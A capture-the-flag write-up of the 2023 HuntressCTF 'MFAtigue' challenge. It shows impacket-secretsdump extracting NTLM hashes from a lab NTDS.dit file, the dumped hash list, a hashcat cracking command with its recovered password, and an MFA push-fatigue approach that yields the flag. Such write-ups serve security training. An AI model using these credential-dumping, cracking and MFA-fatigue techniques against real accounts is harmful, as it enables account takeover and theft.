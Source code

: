 ```yaml
---
title: 2023 HuntressCTF - MFAtigue
date: 2023-10-06T15:04:11-06:00
tags:
  - mfa
  - ntds
  - hash
  - impacket-secretsdump
image: /2023-HuntressCTF/mfa.png
---
```


### Summary
```
Author: Adam Rice

We got our hands on an NTDS file, and we might be able to break into the Azure Admin account! Can you track it down and try to log in? They might have MFA set up though...
```

### Steps

This challenge we given a `NTDS.zip` file and a docker instance to connect to.  I extracted the file and confirmed with `file` that its a Windows registry file.  Next I used `impacket-secretsdump` to dump the hashes from the .dits file. 
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM local -outputfile ./results.txt
```

This tool was able to extract the hash for multiple users.
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:53ffcddea58170b42267fa689f0fa119:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-UUTKPJ98ERD$:1000:aad3b435b51404eeaad3b435b51404ee:ef38fd14274db386b7b5bbddcb37f953:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:948e12fcf27797f773c901c7e1b069d8:::
huntressctf.local\PAMELA_MCCARTHY:1103:aad3b435b51404eeaad3b435b51404ee:98574cb0badfc5d11094dd239af97da2:::
huntressctf.local\MATHEW_BERG:1104:aad3b435b51404eeaad3b435b51404ee:c7e3f4aa78cb46c0b47e61809cef8ca8:::
huntressctf.local\ETHAN_WELCH:1105:aad3b435b51404eeaad3b435b51404ee:151cb8e8e6b942bb0495e88c02365c19:::
huntressctf.local\RILEY_LANGLEY:1106:aad3b435b51404eeaad3b435b51404ee:565911c8b1e206319277f50207377fb1:::
huntressctf.local\PASQUALE_CHRISTIAN:1107:aad3b435b51404eeaad3b435b51404ee:7a2c60c628bda5d963a5934ec733f85f:::
huntressctf.local\HELENA_HESS:1108:aad3b435b51404eeaad3b435b51404ee:feb58b0c807bc1ef3adc390dabc1f6ac:::
huntressctf.local\SALLIE_BALLARD:1109:aad3b435b51404eeaad3b435b51404ee:e7c417bd62f442b1ee53bf70c8d656ef:::
huntressctf.local\LOU_NAVARRO:1110:aad3b435b51404eeaad3b435b51404ee:189b758028dc7ea177e26b990f09aad0:::
huntressctf.local\EDGARDO_DOWNS:1111:aad3b435b51404eeaad3b435b51404ee:38170f23f241863a09d07b2f438fe35a:::
huntressctf.local\GENE_SAWYER:1112:aad3b435b51404eeaad3b435b51404ee:3f8aa43a8714b6cba6438ab8e2890576:::
huntressctf.local\JILLIAN_DOTSON:1113:aad3b435b51404eeaad3b435b51404ee:08e75cc7ee80ff06f77c3e54cadab42a:::
huntressctf.local\EILEEN_NGUYEN:1114:aad3b435b51404eeaad3b435b51404ee:a03d6125a5d27301c10657d20bcb11f0:::
huntressctf.local\8385424457SA:1115:aad3b435b51404eeaad3b435b51404ee:a41edb7e4b7e68bb594d42de289ef4e2:::
huntressctf.local\BERTIE_PRINCE:1116:aad3b435b51404eeaad3b435b51404ee:eb0694cb60d647825ebc6420e0b4f4d4:::
huntressctf.local\KIRK_BARKER:1117:aad3b435b51404eeaad3b435b51404ee:04f60aa2def14e3a0703480d46a74b5c:::
huntressctf.local\PHOEBE_LEWIS:1118:aad3b435b51404eeaad3b435b51404ee:9bc8530fb646ed162646f50dab5ca44a:::
huntressctf.local\LILY_DUNLAP:1119:aad3b435b51404eeaad3b435b51404ee:ab69b9f2f7db11b28dde05ef92961335:::
```

Next, I passed this file to hashcat to try to crack the hashes using the following: `hashcat -m 1000 results.txt.ntds /usr/share/wordlists/rockyou.txt --force`.

Hashcat was able to find crack the hash for one user:
```bash
huntressctf.local\JILLIAN_DOTSON:katlyn99
```

I started up the docker instance and attempted to login with the newly discovered credentials.

![](/2023-HuntressCTF/mfa2.png)

I confirmed the credentials work as I was presented with a `Send Push Notification`.  Based on the challenge title `MFAtigue`, I decided to spam the Send Push Notificaiton button, hoping the user would be annoyed and approve one of the requests. 

After a few attempts, I was presented with the flag: `flag{9b896a677de35d7dfa715a05c25ef89e}`

![](/2023-HuntressCTF/mfa3.png)